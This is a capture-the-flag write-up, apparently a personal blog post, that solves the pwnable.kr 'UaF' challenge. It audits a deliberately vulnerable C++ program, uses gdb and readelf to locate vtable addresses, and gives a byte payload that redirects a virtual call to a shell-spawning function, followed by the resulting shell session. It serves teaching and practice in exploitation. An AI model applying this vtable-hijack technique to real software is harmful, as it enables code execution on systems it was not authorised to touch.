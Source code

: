 ```yaml
---
layout: post
title:  "UaF - Write-Up [Pwnable.kr]"
date:   2016-07-30 14:30:00 +0200
categories: security wargame pwnable
---
```


[Pwnable.kr](http://pwnable.kr) is a non-commercial wargame site which provides various pwn challenges regarding system exploitation. 

In this blog post I'll write-up how I managed to pass the "UaF" (Use-After-Free) challenge.


### Code

``` cpp
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>

using namespace std;

class Human {
private:
	virtual void give_shell() {
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce() {
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human {
public:
	Man(string name, int age) {
		this->name = name;
		this->age = age;
	}
	virtual void introduce() {
		Human::introduce();
		cout << "I am a nice guy!" << endl;
	}
};

class Woman: public Human {
public:
	Woman(string name, int age) {
		this->name = name;
		this->age = age;
	}
	virtual void introduce() {
		Human::introduce();
		cout << "I am a cute girl!" << endl;
	}
};

int main(int argc, char *argv[]) {
	Human *m = new Man("Jack", 25);
	Human *w = new Woman("Jill", 21);

	size_t len;
	char *data;
	unsigned int op;

	while (1) {
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch (op) {
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;
}
```

### Audit

As we can see, we allocate a `Man` and a `Woman`, than we enter in an infinity loop witch asks for an operation:

- `use` performs a call to the `introduce` method for both objects.
- `after` allocates an arbitrary sized array (the size is passed in `argv[1]`) and reads the content of the passed file (`argv[2]`)  into it.
- `free` performs a `delete` call to the two objects previously allocated.

As we can easily imagine, if we `free` and then `use` we will get a __Segmentation fault__ because we are trying to dereference the two deallocated objects.
Instead we are going to allocate an object with a crafted vtable pointer in order to point the `introduce` function to `give_shell`.


Now let's debug the binary in order to understand what's happen at binary level:

```nasm
$ gdb uaf
(gdb)
(gdb) set disassembly-flavor intel
(gdb) set print asm-demangle on
(gdb) disas main
Dump of assembler code for function main:
... (output truncated for brevity) ...
   0x0000000000400f13 <+79>:	call   0x401264 <Man::Man(std::string, int)>
   0x0000000000400f18 <+84>:	mov    QWORD PTR [rbp-0x38],rbx
... (output truncated for brevity) ...
```

At address __0x0000000000400f18__ we can see that we are saving the address of the `Man` object in the stack at `[rbp-0x38]`.

```nasm
(gdb) x/x $rbp-0x38
0x7ffea0a21028:	0x00c65c50
```

So let's see where the `vtable` is (knowing that the `vtable`'s pointer is at the very beginning of our object's memory):

```nasm
(gdb) x/x 0x00c65c50
0xc65c50:	0x00401570
(gdb) x/2g 0x00401570
0x401570 <vtable for Man+16>:	0x000000000040117a      0x00000000004012d2
                                ^Human::give_shell()    ^Man::introduce()
```

Now we can also double check with the `readelf` command:

```nasm
$ readelf uaf -a | grep Man | c++filt 
    57: 00000000004015d0    24 OBJECT  WEAK   DEFAULT   15 typeinfo for Man
    78: 00000000004015c8     5 OBJECT  WEAK   DEFAULT   15 typeinfo name for Man
->  83: 0000000000401560    32 OBJECT  WEAK   DEFAULT   15 vtable for Man
    94: 0000000000401264   109 FUNC    WEAK   DEFAULT   13 Man::Man(std::basic_string<char, std::char_traits<char>, std::allocator<char> >, int)
   100: 0000000000401264   109 FUNC    WEAK   DEFAULT   13 Man::Man(std::basic_string<char, std::char_traits<char>, std::allocator<char> >, int)
-> 110: 00000000004012d2    54 FUNC    WEAK   DEFAULT   13 Man::introduce()
$ readelf uaf -a | grep Human | c++filt 
    59: 0000000000401580    32 OBJECT  WEAK   DEFAULT   15 vtable for Human
    60: 0000000000401192   125 FUNC    WEAK   DEFAULT   13 Human::introduce()
    71: 000000000040123a    41 FUNC    WEAK   DEFAULT   13 Human::~Human()
    73: 00000000004015e8     7 OBJECT  WEAK   DEFAULT   15 typeinfo name for Human
->  85: 000000000040117a    24 FUNC    WEAK   DEFAULT   13 Human::give_shell()
    91: 0000000000401210    41 FUNC    WEAK   DEFAULT   13 Human::Human()
    92: 0000000000401210    41 FUNC    WEAK   DEFAULT   13 Human::Human()
   101: 00000000004015f0    16 OBJECT  WEAK   DEFAULT   15 typeinfo for Human
   118: 000000000040123a    41 FUNC    WEAK   DEFAULT   13 Human::~Human()
```

At this point it's pretty clear what we have to do. We have to allocate some memory with the `after` option, to simulate a real `Man` object but with the `vtable` pointer modified in order to call the `give_shell` function instead of `introduce` when we do the `use` option.

If `0x401570` is the `vtable`'s address and we call `introduce` which is at `0x401578` it means that the call we do is at offset `0x401578`-`0x401570` = __8__. Now we can subtract the offset from the `vtable`'s address to obtain the modified pointer: 

```nasm
(gdb) p/x (0x401570-8)
$1 = 0x401568
```

### Exploit

Now let's see how we can exploit this `UaF`:

```python
python -c 'print ("\x68\x15\x40\x00" + "\x00"*4)' > /tmp/uaf-poc
```

```python
./uaf 8 /tmp/uaf-poc
1. use
2. after
3. free
-> 3
1. use
2. after
3. free
-> 2
your data is allocated
1. use
2. after
3. free
-> 2
your data is allocated
1. use
2. after
3. free
-> 1
$ 
$ cat flag
************
```

### Conclusion

Zero out your pointers when you deallocate memory!
